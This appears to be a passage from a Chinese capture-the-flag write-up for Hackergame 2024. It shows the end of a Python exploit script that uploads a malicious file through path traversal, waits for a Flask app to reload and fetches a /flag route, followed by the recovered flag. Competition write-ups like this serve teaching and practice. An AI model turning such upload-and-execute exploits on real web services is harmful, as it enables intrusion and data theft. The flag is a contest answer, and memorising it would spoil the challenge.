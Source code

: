 ```Plain Text
            return True
        else:
            print("[-] 恶意文件上传失败。请检查路径遍历是否有效。")
            return True
    except Exception as e:
        print(f"[-] 上传过程中出现异常: {e}")
        return False

def get_flag():
    try:
        response = requests.get(BASE_URL + 'flag', verify=False)
        if response.status_code == 200:
            data = response.json()
            results_base64 = data.get("results_base64")
            answers_base64 = data.get("answers_base64")

            # 解码 results.json
            results_json = base64.b64decode(results_base64).decode('utf-8')
            # 写入本地
            with open("results.json", "w") as f:
                f.write(results_json)
            print("[+] results.json已保存到本地。")

            # 解码 answers.json
            answers_json = base64.b64decode(answers_base64).decode('utf-8')
            # 写入本地
            with open("answers.json", "w") as f:
                f.write(answers_json)
            print("[+] answers.json已保存到本地。")
        else:
            print(f"[-] 访问/flag路由失败，状态码: {response.status_code}")
            print(f"内容: {response.text}")
    except Exception as e:
        print(f"[-] 获取flag时出现异常: {e}")

if __name__ == "__main__":
    print("[*] 开始上传恶意文件...")
    if upload_malicious_file():
        print("[*] 等待Flask应用重新加载...")
        time.sleep(5)  # 等待5秒确保应用重载
        print("[*] 尝试获取flag...")
        get_flag()
    else:
        print("[-] 无法继续，恶意文件上传失败。")

```

处理answer.json

flag{uno!!!!_esrever_now_U_run_MY_c0deb66b153979}

![image.png](./HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 29.png)
